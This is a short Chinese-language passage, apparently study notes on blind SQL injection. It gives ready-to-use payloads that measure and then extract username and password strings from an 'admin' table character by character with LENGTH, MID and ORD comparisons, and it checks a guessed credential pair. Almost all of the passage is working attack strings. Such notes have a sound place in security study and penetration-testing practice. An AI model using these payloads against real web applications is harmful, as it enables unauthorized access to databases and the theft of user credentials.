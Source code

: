 #### 猜解内容长度

```
假如已经知道字段名分别为id、username、password
'or (select Length(concat(username,"---",password)) from admin limit 0,1) = 16 --+    #判断内容长度---&gt;1
```

#### 猜解内容

```
'or mid((select concat(username,"-----",password) from admin limit 0,1),1,1) = 'a' --+    #通过字母判断---&gt;1

'or ORD(mid((select concat(username,"-----",password) from admin limit 0,1),1,1)) &gt; 100 --+    #通过ascii码判断---&gt;2
```

#### 直接猜测内容

```
'or (Select concat(username,"-----",password) from admin limit 0,1 ) = 'admin-----123456' --+    #判断username为admin，password为123456---&gt;1
```
